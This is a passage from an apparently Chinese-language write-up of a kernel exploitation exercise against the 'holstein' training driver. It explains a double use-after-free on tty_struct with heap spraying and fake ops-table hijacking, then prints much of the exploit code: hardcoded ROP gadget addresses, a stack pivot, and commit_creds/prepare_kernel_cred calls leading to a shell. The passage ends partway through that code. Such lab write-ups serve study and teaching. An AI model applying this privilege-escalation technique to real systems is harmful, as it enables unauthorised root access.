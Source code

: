 ```c

  ptr[3] = g_buf

  write(fd2, buf, 0x400);

  for (int i = 0; i < SPRAY_NUM; i++) {
    ioctl(spray[i], 0xdeadbeef, 0xcafebabe);
  }

  for (int i = 0; i < SPRAY_NUM; i++)
    close(spray[i]);

  return 0;
}

// ffffffff81269780
// ioctl(fd, rcx, rdx)
```

我想将tty_struct（也就是g_buf本身）作为一个fake ops函数表，但是无法触发劫持，根据网上的资料猜测是因为这样的操作破坏了 tty_struct中原生的一些字段，所以应该是不能直接只利用这一块内存。

pwnyable的原作者采用了两次UAF来完成提权操作。

*tips：我刚开始有个疑问就是为什么fd1 fd2会用同一块g_buf内存，而fd3 fd4会用另一块内存。原因是在分配fd3 fd4之前的close(fd1)，内核会把fd1 fd2那块内存标记为可能被其他对象使用，所以就重新分配了一次内存给fd3 fd4*

即用一块内存作为放置ROP链和fake ops函数表的区域 ，一块内存作为tty_struct结构体来劫持它的ops函数表。

具体的exp为：

```c
#include <fcntl.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ioctl.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <unistd.h>

#define DEVICE "/dev/holstein"
#define SPRAY_NUM 100
#define OPS_OFFSET 0xc39c60

uint64_t g_buf = 0;
uint64_t kernel_base = 0;
uint64_t base = 0xffffffff81000000;
int spray[SPRAY_NUM];

void spawn_shell();

uint64_t user_cs, user_ss, user_rflags, user_sp;
uint64_t user_rip = (uint64_t)spawn_shell;
uint64_t stack_pivot =
    0xffffffff8114fbea; // push rdx; xor eax, 0x415b004f; pop rsp; pop rbp; ret;
uint64_t pop_rdi_ret = 0xffffffff8114078a;
uint64_t pop_rcx_ret = 0xffffffff810eb7e4;
uint64_t mov_rdi_rax_movsq_ret = 0xffffffff81638e9b;
uint64_t commit_creds = 0xffffffff810723c0;
uint64_t prepare_kernel_cred = 0xffffffff81072560;
uint64_t swapgs_restore_regs_and_return_to_usermode = 0xffffffff81800e10;

void spawn_shell() {
  puts("[+] returned to user land");
```